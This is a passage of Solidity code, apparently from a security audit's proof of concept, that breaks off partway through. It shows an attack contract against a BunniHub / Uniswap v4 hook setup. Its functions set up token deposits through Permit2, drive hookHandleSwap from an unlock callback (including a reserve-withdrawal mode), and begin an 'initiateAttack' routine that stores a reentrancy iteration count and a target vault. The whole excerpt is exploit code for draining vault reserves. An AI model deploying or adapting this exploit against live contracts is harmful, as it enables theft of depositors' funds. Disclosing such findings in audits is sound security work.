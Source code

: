 ```solidity

    function mintERC6909(address token, uint256 amount) external {
        poolManager.unlock(abi.encode(uint8(0), token, amount, msg.sender, true));
    }

    function mintBunniToken(PoolKey memory _key, uint256 _amount0, uint256 _amount1)
        external
        returns (uint256 shares)
    {
        IERC20(Currency.unwrap(_key.currency0)).transferFrom(msg.sender, address(this), _amount0);
        IERC20(Currency.unwrap(_key.currency1)).transferFrom(msg.sender, address(this), _amount1);

        IERC20(Currency.unwrap(_key.currency0)).approve(address(PERMIT2), _amount0);
        IERC20(Currency.unwrap(_key.currency1)).approve(address(PERMIT2), _amount1);
        PERMIT2.approve(Currency.unwrap(_key.currency0), address(hub), uint160(_amount0), type(uint48).max);
        PERMIT2.approve(Currency.unwrap(_key.currency1), address(hub), uint160(_amount1), type(uint48).max);

        (shares,,) = IBunniHub(hub).deposit(
            IBunniHub.DepositParams({
                poolKey: _key,
                amount0Desired: _amount0,
                amount1Desired: _amount1,
                amount0Min: 0,
                amount1Min: 0,
                deadline: block.timestamp,
                recipient: address(this),
                refundRecipient: address(this),
                vaultFee0: 0,
                vaultFee1: 0,
                referrer: address(0)
            })
        );
    }

    function unlockCallback(bytes calldata data) external returns (bytes memory result) {
        (uint8 mode, address token, uint256 amount, address spender, bool zeroForOne) =
            abi.decode(data, (uint8, address, uint256, address, bool));
        if (mode == 0) {
            poolManager.sync(Currency.wrap(token));
            IERC20(token).transferFrom(spender, address(poolManager), amount);
            uint256 deltaAmount = poolManager.settle();
            poolManager.mint(address(this), Currency.wrap(token).toId(), deltaAmount);
        } else if (mode == 1) {
            hub.hookHandleSwap(key, zeroForOne, amount, 0);
        } else if (mode == 2) {
            hub.hookHandleSwap(key, false, 1, amountOfReservesToWithdraw);
        }
    }

    function initiateAttack(
        IBunniHub _hub,
        PoolKey memory _key,
        address _targetVault,
        uint256 _amountToWithdraw,
        Vector _vec,
        uint256 iterations
    ) public {
        reentrancyIterations = iterations;
        hub = _hub;
        key = _key;
        vault = _targetVault;
```